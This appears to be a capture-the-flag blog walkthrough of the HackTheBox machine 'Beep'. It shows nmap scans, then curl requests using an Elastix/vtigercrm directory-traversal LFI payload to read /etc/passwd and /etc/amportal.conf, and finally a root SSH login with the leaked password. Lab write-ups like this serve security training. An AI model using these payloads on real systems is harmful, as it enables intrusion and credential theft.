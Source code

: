 ```yaml
---
title: Beep
published: true
layout: post
---
```


<br />

---------------
Beep has a **very large list of running services**, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/HkEZ4S_7hnQ?si=hSYFPz9MnzKnJ07z" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There were **19 open ports**:
+ **22/tcp**
+ **25/tcp**
+ **80/tcp**
+ **110/tcp**
+ **111/tcp**
+ **111/udp**
+ **123/udp**
+ **143/tcp**
+ **443/tcp**
+ **792/tcp**
+ **993/tcp**
+ **995/tcp**
+ **3306/tcp**
+ **4190/tcp**
+ **4445/tcp**
+ **4559/tcp**
+ **5038/tcp**
+ **10000/tcp**
+ **10000/udp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **22/tcp OpenSSH 4.3 (protocol 2.0)**
+ **443/tcp Apache httpd 2.2.3 ((CentOS))**
+ **5038/tcp Asterisk Call Manager 1.1**
+ **10000/tcp MiniServ 1.570 (Webmin httpd)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.<br />

------
<br />
### Foothold

This machine didn't feel like an easy machine for me due to the overwhelming amount of open ports, some problems with SSL and being the first time I meet Elastix and FreePBX.

<br />

We will focus on the website located on port 443, however it will give us a **TLS error** due to a very old version of it, to overcome this problem, we have to type about:config in our **Firefox URL bar** and set to **true** this element, if it doesn't exist, create it:

```
security.tls.version.enable-deprecated
```
<br />

Once this is done we can access the website to find an **Elastix login page**:<br />

![](/assets/Beep/1.png)
<br />
<br />

Searching for Elastix on `searchsploit` returns an **LFI vulnerability**:

```bash
searchsploit Elastix
```

![](/assets/Beep/2.png)
<br />
<br />

We can check this vulnerability by running:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action'
```

![](/assets/Beep/3.png)
<br />
<br />

The first I though after seeing this was **log poisoning**, however it didn't work, so I searched for sensitive files and found **Asterisk's configuration file /etc/amportal.conf**, so let's print it and omit comments:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action' | grep -v '^#'
```

![](/assets/Beep/4.png)
<br />
<br />

Great!! We have a **password**, we can try it with the **users we enumerated printing the /etc/passwd file**, it will give us some **algorithms errors**, so I will solve them with a few parameters, luckily for us, it was **root's password**:

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=ssh-rsa
```

![](/assets/Beep/5.png)
<br />
<br />
